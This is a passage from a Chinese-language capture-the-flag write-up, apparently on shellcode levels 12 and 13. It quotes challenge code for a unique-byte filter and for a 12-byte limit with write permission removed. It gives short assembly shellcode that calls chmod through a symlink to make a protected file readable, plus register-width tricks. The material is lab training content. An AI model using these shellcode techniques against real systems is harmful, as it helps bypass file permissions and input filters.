 > 具体还与操作对象有关。
> 另外，只需要满足数据操作互相替换即可：mov、push、or、and、xor、inc，imult、div、shl、shr等等，基本都能替换。

```c
    puts("This challenge requires that every byte in your shellcode is unique!\n");
    unsigned char present[256] = {0};
    for (int i = 0; i < shellcode_size; i++)
    {
        if (present[((uint8_t*)shellcode_mem)[i]])
        {
            printf("Failed filter at byte %d!\n", i);
            exit(1);
        }
        present[((uint8_t*)shellcode_mem)[i]] = 1;
    }
```
## sil 代替 rsi
> 需要满足 rsi 高位全零。最少是高 32 位全 0

```python
sh = asm('''
push 0x41
mov rdi,rsp
xor esi,esi    # 有时候可以不要，【len】min = 12bytes
mov sil,0x4
mov al,0x5a      
syscall
''')
```
## 其他技巧【待补充......】

# level 13. 12字节shellcode 移除写入权限
```basic

puts("Reading 0xc bytes from stdin.\n");
shellcode_size = read(0, shellcode_mem, 0xc);
assert(shellcode_size > 0);

puts("Removing write permissions from first 4096 bytes of shellcode.\n");
assert(mprotect(shellcode_mem, 4096, PROT_READ|PROT_EXEC) == 0);
```
## chmod 软链接方法
```python
sh = asm('''
push 0x66
mov rdi,rsp
push 777
pop rsi
mov al,0x5a      
syscall
''')
# len = 12bytes
```
```python
shellcode = asm("""
    push 0x41
    mov rdi, rsp
    mov sil, 0x4        # sil即寄存器rdi低位部分
    mov al, 0x5a
    syscall
""")
```
